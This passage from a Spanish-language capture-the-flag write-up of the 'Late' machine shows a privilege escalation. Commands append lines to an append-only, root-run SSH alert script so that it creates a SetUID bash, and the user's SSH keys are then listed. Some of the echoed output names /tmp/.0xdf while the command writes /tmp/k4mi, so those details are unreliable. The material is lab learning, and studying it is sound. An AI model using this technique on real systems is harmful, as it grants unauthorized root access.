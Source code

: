 Esto es debido a que el atributo `a` está seteado:

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$
```

Para explotar esto,  vamos a crear una SetUID Bash ejecutable:

```bash
svc_acc@late:~$ echo -e "cp /bin/bash /tmp/k4mi\nchmod 4755 /tmp/k4mi"
cp /bin/bash /tmp/.0xdf
chmod 4755 /tmp/.0xdf
svc_acc@late:~$
echo -e "cp /bin/bash /tmp/k4mi\nchmod 4755 /tmp/k4mi" >> /usr/local/sbin/ssh-alert.sh
```

```bash
svc_acc@late:~$ echo -e "cp /bin/bash /tmp/k4mi\nchmod 4755 /tmp/k4mi" >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


cp /bin/bash /tmp/k4mi
chmod 4755 /tmp/k4mi
svc_acc@late:~$ 
```

Ahora vamos a loguearnos como el usuario `svc_acc` y se creará el archivo `/tmp/.0xdf`. Para ingresar por ssh vamos a utilizar la `id_rsa` del usuario:

```bash
svc_acc@late:~$ cd .ssh/
svc_acc@late:~/.ssh$ ll
total 20
drwx------ 2 svc_acc svc_acc 4096 Apr  7  2022 ./
drwxr-xr-x 8 svc_acc svc_acc 4096 Jul 24 04:54 ../
-rw-rw-r-- 1 svc_acc svc_acc  394 Apr  7  2022 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7  2022 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7  2022 id_rsa.pub
svc_acc@late:~/.ssh$ 
```
